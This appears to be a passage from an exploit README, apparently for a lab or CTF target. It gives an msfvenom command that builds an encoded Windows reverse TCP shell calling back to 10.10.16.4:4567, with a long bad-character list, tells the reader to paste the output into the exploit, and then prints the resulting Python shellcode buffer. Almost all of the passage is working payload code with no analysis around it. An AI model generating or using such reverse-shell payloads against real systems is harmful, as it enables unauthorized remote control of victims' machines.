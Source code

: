 ```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=4567 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Then paste the results into the exploit in place of the existing results.

```
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += b"\x47\x42\x39\x75\x34\x4a\x42\x39\x6c\x6a\x48\x62\x62"
buf += b"\x6d\x30\x6d\x30\x59\x70\x53\x30\x72\x69\x4b\x35\x6d"
buf += b"\x61\x77\x50\x61\x54\x72\x6b\x62\x30\x6e\x50\x32\x6b"
buf += b"\x6f\x62\x5a\x6c\x34\x4b\x6f\x62\x7a\x74\x52\x6b\x72"
buf += b"\x52\x4b\x78\x4a\x6f\x56\x57\x6d\x7a\x4b\x76\x6c\x71"
buf += b"\x69\x6f\x44\x6c\x6f\x4c\x53\x31\x43\x4c\x4d\x32\x6c"
buf += b"\x6c\x6d\x50\x75\x71\x78\x4f\x7a\x6d\x49\x71\x37\x57"
buf += b"\x5a\x42\x48\x72\x50\x52\x6e\x77\x32\x6b\x71\x42\x4a"
buf += b"\x70\x54\x4b\x4e\x6a\x4d\x6c\x64\x4b\x4e\x6c\x7a\x71"
buf += b"\x33\x48\x6a\x43\x61\x38\x6b\x51\x5a\x31\x50\x51\x34"
buf += b"\x4b\x51\x49\x6d\x50\x39\x71\x38\x53\x72\x6b\x6d\x79"
buf += b"\x5a\x78\x6a\x43\x6f\x4a\x71\x39\x52\x6b\x4e\x54\x44"
buf += b"\x4b\x49\x71\x66\x76\x4c\x71\x59\x6f\x46\x4c\x35\x71"
buf += b"\x38\x4f\x6c\x4d\x6a\x61\x75\x77\x70\x38\x6b\x30\x61"
buf += b"\x65\x4c\x36\x6c\x43\x51\x6d\x69\x68\x6f\x4b\x71\x6d"
buf += b"\x4d\x54\x53\x45\x47\x74\x6e\x78\x72\x6b\x30\x58\x4c"
buf += b"\x64\x39\x71\x47\x63\x4f\x76\x74\x4b\x4a\x6c\x50\x4b"
buf += b"\x64\x4b\x31\x48\x6d\x4c\x6a\x61\x59\x43\x64\x4b\x6c"
buf += b"\x44\x44\x4b\x69\x71\x5a\x30\x54\x49\x30\x44\x4b\x74"
buf += b"\x4b\x74\x71\x4b\x6f\x6b\x50\x61\x4f\x69\x4e\x7a\x70"
buf += b"\x51\x39\x6f\x67\x70\x6f\x6f\x31\x4f\x51\x4a\x62\x6b"
buf += b"\x4a\x72\x4a\x4b\x74\x4d\x71\x4d\x31\x58\x4f\x43\x6f"
buf += b"\x42\x69\x70\x69\x70\x4f\x78\x71\x67\x71\x63\x6e\x52"
buf += b"\x4f\x6f\x6e\x74\x31\x58\x50\x4c\x30\x77\x4d\x56\x79"
buf += b"\x77\x69\x6f\x36\x75\x37\x48\x76\x30\x49\x71\x6b\x50"
buf += b"\x4b\x50\x6b\x79\x77\x54\x6f\x64\x50\x50\x32\x48\x4b"
buf += b"\x79\x65\x30\x32\x4b\x49\x70\x39\x6f\x37\x65\x62\x30"
buf += b"\x42\x30\x70\x50\x62\x30\x6d\x70\x72\x30\x6d\x70\x70"
buf += b"\x50\x61\x58\x7a\x4a\x7a\x6f\x37\x6f\x6b\x30\x59\x6f"
buf += b"\x46\x75\x66\x37\x51\x5a\x59\x75\x42\x48\x6a\x6a\x59"
buf += b"\x7a\x6a\x70\x69\x74\x72\x48\x79\x72\x6d\x30\x6b\x61"
buf += b"\x49\x47\x61\x79\x4b\x36\x50\x6a\x4a\x70\x4e\x76\x70"
buf += b"\x57\x63\x38\x73\x69\x44\x65\x34\x34\x73\x31\x6b\x4f"
buf += b"\x7a\x35\x31\x75\x67\x50\x44\x34\x4c\x4c\x79\x6f\x70"
buf += b"\x4e\x6a\x68\x62\x55\x48\x6c\x72\x48\x4a\x50\x57\x45"
buf += b"\x47\x32\x61\x46\x59\x6f\x59\x45\x33\x38\x4f\x73\x50"
buf += b"\x6d\x6f\x74\x69\x70\x61\x79\x37\x73\x70\x57\x42\x37"
buf += b"\x70\x57\x6e\x51\x6b\x46\x71\x5a\x4b\x62\x4f\x69\x4f"
buf += b"\x66\x39\x52\x4b\x4d\x33\x36\x55\x77\x51\x34\x4c\x64"
buf += b"\x4d\x6c\x4d\x31\x4a\x61\x42\x6d\x6e\x64\x6f\x34\x5a"
buf += b"\x70\x69\x36\x39\x70\x4f\x54\x70\x54\x42\x30\x72\x36"
buf += b"\x6e\x76\x6e\x76\x70\x46\x4f\x66\x6e\x6e\x51\x46\x6f"
```